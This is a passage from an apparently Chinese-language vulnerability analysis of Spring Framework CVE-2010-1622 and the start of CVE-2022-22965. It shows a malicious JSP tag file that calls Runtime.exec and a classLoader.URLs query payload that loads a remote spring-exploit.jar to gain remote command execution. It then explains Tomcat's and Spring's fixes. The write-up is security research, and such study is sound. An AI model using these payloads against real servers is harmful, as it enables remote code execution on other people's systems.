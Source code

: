     &lt;!-- &lt;form:input/&gt; tag --&gt;  
    &lt;tag-file&gt;  
    &lt;name&gt;input&lt;/name&gt;  
    &lt;path&gt;/META-INF/tags/InputTag.tag&lt;/path&gt;  
    &lt;/tag-file&gt;
    
    （input tag 会根据开发人员的定义，给参数默认赋值）
    
    这样就指定了一个 tag 文件解析。同样，恶意的的 tag 文件也可以放在构造的 spring-exploit.jar 中
    
    &lt;%@ tag dynamic-attributes="dynattrs" %&gt;  
    &lt;%  
    j java.lang.Runtime.getRuntime().exec("calc");  
    %&gt;
    
    经过这样的替换后，当开发者在 controller 中将任何一个对象绑定表单（一般的 web 应用中都会由），那么就可以通过构造 payload：
    
    ?class.classLoader.URLs\[0\]=jar:<http://vsp/spring-exploit.jar>!/
    
    实现远程命令执行。
    
    除此之外，需要是该应用启动后第一次的 jsp 页面请求即第一次渲染进行TldLocationsCache.init 才可以，否则无法将修改的 URLs 内容装载，也就无法加载我们恶意的 tld。
    
    ##### 漏洞修复：
    
    虽然是 spring 的漏洞，但 tomcat 也做了对应的修复，在 tomcat6.0.28 之后的版本把 getURLs 方法返回的值改成了 clone
    
    6.0.28：
    
    public URL\[\] getURLs() {  
    if (repositoryURLs != null) {  
    return repositoryURLs;  
    }
    
    之后：
    
    public URL\[\] getURLs() {  
    if (repositoryURLs != null) {  
    return repositoryURLs.clone();  
    }
    
    至于 spring 的修复其实在之前 debug 的过程中已经能看到了，本地用的是 4.3.5 版本，在查找属性的 getter 和 setter 的时候，对 classLoader 进行了过滤。
    
    ![image-20220409103442420](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d519eb87ebd65dc159d76dd4e492e3c8606d0599.png)
- ### CVE-2022-22965
    
    在漏洞利用的前提中有一条有其重要，就是要使 jdk9+ 的版本（本地用 jdk11 进行调试），原因是在 java9 添加了 module 模块，而 CVE-2022-22965 就是利用了这个模块实现了 CVE-2010-1622 的绕过，但与其说是绕过，更不如说是攻击方式的拓展。
    
    前面提到过，getBeanInfo 能获得属性的原因是有对应的 getter，在 jdk9 以后的 java.lang.Class 中，发现 getModule 方法，
    
    ![image-20220409175251746](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-bd18231134b09b18dc67eac6d134a29c706014a3.png)
    
    在 jdk9+ 的 Class.class 中也可以看到：
    
    ![image-20220409175445837](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b902480b1a37197519cf230a5fdd7b238a04a5bf.png)
    
    而在这个 module 类中，也存在一个 ClassLoader 类型的属性，并且存在对应的 getter ，
    